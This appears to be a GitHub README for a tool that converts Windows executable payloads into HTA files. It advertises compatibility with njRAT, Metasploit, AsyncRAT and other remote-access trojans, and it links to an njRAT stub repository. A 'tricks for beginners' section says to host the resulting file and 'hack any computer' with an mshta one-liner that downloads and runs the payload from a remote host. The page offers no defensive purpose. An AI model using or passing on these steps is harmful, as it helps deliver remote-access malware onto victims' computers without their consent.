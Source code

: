 ### Welcome to EXE>HTA Converter tool version 1.0

This tool will convert EXE file to HTA extension it's very simple to use, and a lot faster.

<img src="screenshots/Start.png" width=400 align="center">

<img src="screenshots/Payload.png" width=400 align="center">

<img src="screenshots/Finish.png" width=400 align="center">

### ❗ What is this ?

EXE>HTA is a tool that automate procedures during converting a payload from EXE into HTA extension. It works with njRAT & Metasploit and some other RAT's. This tool was made for Windows users.

Video Proof (To see this video you need to subscribe first and send me your e-mail address in https://t.me/ctoslab): https://youtu.be/3xzOEhswhnw

### ⚙️ FEATURES

- Convert EXE to HTA
- Compatible with njRAT
- Compatible with Metasploit
- Compatible with AsyncRAT
- Compatible with RevengeRAT
- Compatible with Lime-RAT & a lot more...
- Easy to use & it doesn't need knowledge

### 📖 HOW TO INSTALL
IMPORTANT! pip install throwbin
1. pip install -r requirements.txt
2. Donwload & install python3 ('https://www.python.org/downloads/')
3. Download 'njRAT C# Stub' from github ('git clone https://github.com/NYAN-x-CAT/njRAT-0.7d-Stub-CSharp')
4. Download the tool
5. Unzip the file
6. Open the EXETOHTA.exe file
7. Select your python.exe path
8. Select your payload.exe path
9. press CONVERT button.

To learn more please watch this video (To see this video you need to subscribe first and send me your e-mail address in https://t.me/ctoslab): https://youtu.be/3xzOEhswhnw

### 📡 HOW TO UPDATE

You can check updates from our official website:
https://ctoslab.com/products/


For feature recommendation please add it on the "Issues" tab or contact us:
https://www.ctoslab.com/support/

### 💡 Bonus Useful Tricks! (For Beginners)

You can upload 'output.hta' to a file uploader website (ex. zippyshare, upload.ee ...) and hack any computer using only OneLineCode.
Exemple:
Press START+R to open Run
And write: mshta exemple.com/payload.hta
It will download and execute the payload automatically.

### 💰 Donate

If you like my work, consider buying me a coffee :)

Bitcoin > 12ZGhmVWi8QboVoExWjUFinyJpaKLqAmHN

⚠️ We are not responsible on how you use this tool. 
